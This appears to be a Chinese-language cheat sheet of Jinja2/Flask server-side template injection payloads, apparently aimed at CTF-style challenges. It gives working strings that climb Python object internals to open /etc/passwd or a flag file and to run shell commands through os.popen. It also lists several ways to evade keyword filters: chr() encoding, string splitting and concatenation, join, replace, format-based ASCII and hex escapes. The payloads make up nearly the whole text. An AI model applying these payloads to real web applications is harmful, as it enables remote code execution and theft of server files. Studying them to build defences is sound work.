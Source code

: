 ```
{{().__class__.__bases__[0].__subclasses__()[40].__init__.__globals__.__builtins__[request.values.arg1](request.values.arg2).read()}}
post:arg1=open&arg2=/etc/passwd


2.chr绕过

{% set chr=().__class__.__mro__[1].__subclasses__()[139].__init__.__globals__.__builtins__.chr%}{{''.__class__.__mro__[1].__subclasses__()[139].__init__.__globals__.__builtins__.__import__(chr(111)%2Bchr(115)).popen(chr(119)%2Bchr(104)%2Bchr(111)%2Bchr(97)%2Bchr(109)%2Bchr(105)).read()}}

注意：使用GET请求时，+号需要url编码，否则会被当作空格处理。
```

#### 绕过关键字
```
1.使用切片将逆置的关键字顺序输出，进而达到绕过。

""["__cla""ss__"]
"".__getattribute__("__cla""ss__")
反转
""["__ssalc__"][::-1]
"".__getattribute__("__ssalc__"[::-1])


2.利用"+"进行字符串拼接，绕过关键字过滤。

{{()['__cla'+'ss__'].__bases__[0].__subclasses__()[40].__init__.__globals__['__builtins__']['ev'+'al']("__im"+"port__('o'+'s').po""pen('whoami').read()")}}


3.join拼接

利用join（）函数绕过关键字过滤

{{[].__class__.__base__.__subclasses__()[40]("fla".join("/g")).read()}}


4.利用引号绕过

{{[].__class__.__base__.__subclasses__()[40]("/fl""ag").read()}}


5.使用str原生函数replace替换

将额外的字符拼接进原本的关键字里面，然后利用replace函数将其替换为空。

{{().__getattribute__('__claAss__'.replace("A","")).__bases__[0].__subclasses__()[376].__init__.__globals__['popen']('whoami').read()}}


6.ascii转换

将每一个字符都转换为ascii值后再拼接在一起。

"{0:c}".format(97)='a'
"{0:c}{1:c}{2:c}{3:c}{4:c}{5:c}{6:c}{7:c}{8:c}".format(95,95,99,108,97,115,115,95,95)='__class__'


7.16进制编码绕过

"__class__"=="\x5f\x5fclass\x5f\x5f"=="\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f"

```
